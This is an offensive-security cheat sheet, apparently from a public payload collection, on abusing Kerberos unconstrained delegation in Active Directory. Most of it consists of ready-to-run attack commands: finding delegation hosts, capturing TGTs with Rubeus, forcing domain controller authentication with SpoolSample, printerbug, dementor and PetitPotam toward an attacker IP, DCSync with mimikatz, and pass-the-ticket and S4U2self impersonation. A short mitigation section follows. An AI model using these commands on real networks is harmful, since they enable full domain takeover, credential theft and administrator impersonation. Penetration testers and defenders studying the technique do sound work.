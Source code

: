 # Kerberos Delegation - Unconstrained Delegation

> The user sends a ST to access the service, along with their TGT, and then the service can use the user's TGT to request a ST for the user to any other service and impersonate the user.
> When a user authenticates to a computer that has unrestricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory.

:warning: Unconstrained delegation used to be the only option available in Windows 2000

> **Warning**
> Remember to coerce to a HOSTNAME if you want a Kerberos Ticket

The goal is to gain DC Sync privileges using a computer account and the SpoolService bug.

**Requirements**:

- Object with Property **Trust this computer for delegation to any service (Kerberos only)**
- Must have **ADS_UF_TRUSTED_FOR_DELEGATION**
- Must not have **ADS_UF_NOT_DELEGATED** flag
- User must not be in the **Protected Users** group
- User must not have the flag **Account is sensitive and cannot be delegated**

## Find delegation

:warning: : Domain controllers usually have unconstrained delegation enabled.
Check the `TRUSTED_FOR_DELEGATION` property.

- [ADModule](https://github.com/samratashok/ADModule)

  ```powershell
  # From https://github.com/samratashok/ADModule
  PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
  ```

- [bloodyAD](https://github.com/CravateRouge/bloodyAD)

  ```ps1
  bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))' --attr sAMAccountName,userAccountControl
  ```
  
- [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

  ```powershell
  $> ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
  grep TRUSTED_FOR_DELEGATION domain_computers.grep
  ```

- [netexec module](https://github.com/Pennyw0rth/NetExec/wiki)

  ```powershell
  nxc ldap 10.10.10.10 -u username -p password --trusted-for-delegation
  ```

- BloodHound: `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
- Powershell Active Directory module: `Get-ADComputer -LDAPFilter "(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -Properties DNSHostName,userAccountControl`

## Kerberoasting Unconstrained Delegation 

* **Rubeus**                                                                                                                                                          
  Monitor for New TGT's                                                                                                                                               
  ```powershell                                                                                                                                                       
  .\Rubeus.exe monitor /interval:5 /nowrap                                                                                                                            
  ```                                                                                                                                                                 
  Use the recieved ticket to access a resource                                                                                                                        
  ```powershell                                                                                                                                                       
  .\Rubeus.exe asktgs /ticket:<Recieved Ticket> /service:<SPN> /ptt /nowrap                                                                                                   
  ```                                                                                                                                                                 
  If the above doesn't work, we use renew to get a brand new TGT instead of a TGS
  ```powershell
  .\Rubeus.exe renew /ticket:<ticket> /ptt                                                                                                                            
  ```

## The Printer Bug (exploit w/ [SpoolSample POC](https://github.com/leechristensen/SpoolSample) & Rubeus

> There is a bug in the Print System Remote protocol that can force a computer to authenticate to any computer in the domain, thus allowing us to capture the machine TGT

* **We can use the [SpoolSample POC](https://github.com/leechristensen/SpoolSample) to accomplish this**

### Execution
  Note: 2 computers, sql01 & DC01
  From SQL01:
  ```powershell
  .\Rubeus.exe monitor /interval:5 /nowrap
  ```
  Open another PS windowson SQL01
  ```powershell
  #Syntax
  .\SpoolSample.exe <TargetServer> <CaptureServer>
  # Example
  .\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local
  # This should force DC01 to auth to SQL01 thus giving us the TGT of the DC
  ```
  Renew the captured TGT w/ Rubeus
  ```powershell
  .\Rubeus.exe renew /ticket:<ticket> /ptt
  ```
  If we manage to capture the tgt, we can perform a DCSync and pwn the domain

Example
  Dumping an admin user w/ mimikatz
  ```powershell
  mimikatz.exe
  mimikatz > lsadump::dcsync /user:<Admin Username>
  ```
  Rubeus to request a ticket as that admin user
  ```powershell
  .\Rubeus.exe asktgt /rc4:<NTLM hash> /user:<admin username> /ptt
  ```
  We can now use this ticket to impersonate the administrative user.

## SpoolService Abuse with Unconstrained Delegation Using SpoolSample, krbrelayx, & dementor

### SpoolService status

Check if the spool service is running on the remote host

```powershell
ls \\dc01\pipe\spoolss
python rpcdump.py DOMAIN/user:password@10.10.10.10
```

### Monitor with Rubeus

Monitor incoming connections from Rubeus.

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

### Force a connect back from the DC

Due to the unconstrained delegation, the TGT of the computer account (DC$) will be saved in the memory of the computer with unconstrained delegation. By default the domain controller computer account has DCSync rights over the domain object.

> [SpoolSample PoC](https://github.com/leechristensen/SpoolSample) is a PoC to coerce a Windows host to authenticate to an arbitrary server using a "feature" in the MS-RPRN RPC interface.

```powershell
.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
# DC01.HACKER.LAB is the domain controller we want to compromise
# HELPDESK.HACKER.LAB is the machine with delegation enabled that we control.

### krbrelayx
# From https://github.com/dirkjanm/krbrelayx
printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>

# From https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>
```

If the attack worked you should get a TGT of the domain controller.

### Load the ticket

Extract the base64 TGT from Rubeus output and load it to our current session.

```powershell
.\Rubeus.exe asktgs /ticket:<ticket base64> /service:LDAP/dc.lab.local,cifs/dc.lab.local /ptt
```

Alternatively you could also grab the ticket using Mimikatz :  `mimikatz # sekurlsa::tickets`

Then you can use DCsync or another attack : `mimikatz # lsadump::dcsync /user:HACKER\krbtgt`

## S4U2self for Non-Domain Controllers
> Using the credentials above, if we don't need to do a DCSync, or if the target computer is not a DC, we can use S4U2self to impersonate any user in the domain. This is useful for scenarios where we have a ticket from a computer that is not a domain controller

Forge a service ticket for any service                                                                                                                              
  ```powershell                                                                                                                                                       
  .\Rubeus.exe s4u /self /nowrap /impersonateuser:<User to impersonate> /altservice:<SPN> /ptt /ticker:<ticket>                                                       
  ```

### Mitigation

- Ensure sensitive accounts cannot be delegated
- Disable the Print Spooler Service

## MS-EFSRPC Abuse with Unconstrained Delegation

Using `PetitPotam`, another tool to coerce a callback from the targeted machine, instead of `SpoolSample`.

```bash
# Coerce the callback
git clone https://github.com/topotam/PetitPotam
python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP

# Extract the ticket
.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt
```

## References

- [Exploiting Unconstrained Delegation - Riccardo Ancarani - 28 APRIL 2019](https://www.riccardoancarani.it/exploiting-unconstrained-delegation/)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts - Roberto Rodriguez - Nov 28, 2018](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - Elad Shamir - 28 January 2019](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
